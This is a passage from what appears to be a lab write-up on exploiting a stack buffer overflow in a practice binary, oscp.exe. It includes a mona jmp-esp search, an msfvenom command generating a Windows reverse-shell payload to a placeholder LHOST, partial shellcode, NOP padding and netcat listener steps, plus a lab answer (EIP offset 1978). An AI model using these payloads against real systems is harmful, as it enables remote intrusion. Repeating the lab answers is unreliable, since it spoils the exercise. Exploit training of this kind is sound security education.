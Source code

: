 !mona jmp -r esp -cpb "\x00"

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

`padding = "\x90" * 16`

### Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

### Answer the questions below

* What is the EIP offset for OVERFLOW1?

  `1978`

  * Load `oscp.exe`
  
    ![task2-open](./images/task2-open.png)
